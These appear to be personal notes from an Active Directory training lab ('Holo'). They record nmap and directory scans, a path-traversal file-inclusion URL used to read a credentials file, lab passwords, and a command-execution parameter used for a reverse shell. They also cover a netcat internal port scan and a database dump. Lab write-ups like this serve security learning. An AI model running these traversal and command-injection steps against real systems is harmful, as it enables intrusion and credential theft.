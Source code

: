 # Holo - Active Directory Network
Scope: 10.200.110.0/24 | 192.168.100.0/24 | 2022-04-12
My address: 10.50.111.110

## Initial Recon
### Nmap Scan:
Command: 
- `nmap -sV -sC -p- -v 10.200.110.0/24`

Nmap Results:
- 10.200.110.33 | Ports: 22, 80, 33060 (mysql)
Web Server: Apache WordPress 5.5.3 | Robots.txt
- 10.200.110.250 | Ports: 22, 1337
Web Server: Port 1337 - Node.js Framework

*Added 10.200.110.33 to hosts file as holo.live*

### Subdomains/Directory Enumeration:
Command:
- [[GoBuster - Web Enumeration]]

Scan Results:
- www.holo.live
- admin.holo.live
- dev.holo.live
*Added 10.200.110.33 to hosts with all of the domains above*

On admin server: 
- /var/www/admin/db.php
- /var/www/admin/dashboard.php
- /var/www/admin/supersecretdir/creds.txt

On dev server:
LFI - http://dev.holo.live/img.php?file=../../../../../../../../../var/www/admin/supersecretdir/creds.txt

Creds from the admin page (via LFI): `admin:DBManagerLogin!`

RCE - http://admin.holo.live/dashboard.php?cmd= => Leads to Reverse Shell

Found out the machine is in a docker via: `cat /proc/1/cgroup`


## Docker Machine:
Internal port scanning: `nc -zv 192.168.100.1 1-65535`
Open ports: 33060, 8080, 3306, 80, 22

Found database creds inside php code: `admin:!123SecureAdminDashboard321!`

DB dump:
```
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
```
